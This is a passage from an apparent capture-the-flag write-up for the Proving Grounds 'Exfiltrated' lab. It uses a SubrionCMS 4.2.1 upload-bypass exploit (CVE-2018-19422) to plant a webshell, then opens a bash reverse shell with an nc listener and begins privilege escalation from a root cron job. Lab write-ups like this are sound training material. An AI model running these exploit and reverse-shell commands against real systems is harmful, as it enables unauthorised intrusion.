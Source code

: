 Running the following exploit gives us the `www-data` user
```
┌──(kali㉿kali)-[~/…/PGPractice/Easy/Linux/Exfiltrated]
└─$ python3 49876.py -u http://exfiltrated.offsec/panel/ -l admin -p admin
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://exfiltrated.offsec/panel/
[+] Success!
[+] Got CSRF token: 4ySue9SKFPjazi0qBWUFHbhzRzdgWvOINMM6QVfE
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: qavbfeuonalspfu

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://exfiltrated.offsec/panel/uploads/qavbfeuonalspfu.phar 

$ whoami
www-data
```

Using revshells.com to make a bash reverse shell and catch it using `nc`
```bash
$ bash -c "bash -i >& /dev/tcp/$IP/$PORT 0>&1"
```

# **Privilege Escalation**
Checking the crontab shows us the following sus file running as root.
```bash
┌──(kali㉿kali)-[~/…/PGPractice/Easy/Linux/Exfiltrated]
└─$ nc -lnvp 6969
listening on [any] 6969 ...
connect to [ip] from (UNKNOWN) [192.168.162.163] 45084
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@exfiltrated:/var/www/html/subrion/uploads$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *   root    bash /opt/image-exif.sh
```
